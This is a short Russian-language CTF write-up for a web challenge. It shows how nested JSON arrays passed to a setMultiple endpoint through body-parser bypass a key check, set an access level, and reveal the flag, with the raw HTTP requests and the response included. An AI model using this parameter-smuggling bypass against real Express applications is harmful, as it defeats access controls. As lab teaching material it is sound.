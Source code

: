 Флаг лежит в `storage._vault['flag']`,
через `storage.get('flag')` его нельзя достать т.к нельзя прописать себе `level`

Это можно обойти, юзнув `setMultiple` с аргументами `['blabla', ['blabla', 'level', 'spbctf_security_1337']]`

`setMultiple` "раскроет вложенные массивы", которые обойдут проверку ключа

Вложенный массив можно передать, потому что используется body-parser

    > GET /setm HTTP/1.1
    > Host: localhost:31337
    > User-Agent: insomnia/6.4.2
    > Content-Type: application/json
    > Accept: */*
    > Content-Length: 52

    | [
    | 	"kek", ["lul", "level", "spbctf_security_1337"]
    | ]

    ----

    > GET /get?key=flag HTTP/1.1
    < HTTP/1.1 200 OK
    < X-Powered-By: Express
    < Content-Type: application/json; charset=utf-8
    < Content-Length: 45
    < ETag: W/"2d-T0uhy/9+2Ry6rEl3D5TELS5q8OQ"
    < Date: Thu, 09 May 2019 12:58:42 GMT
    < Connection: keep-alive

    | {
    |   "value": "battles{never_parse_user_input_structures!!!}"
    | }
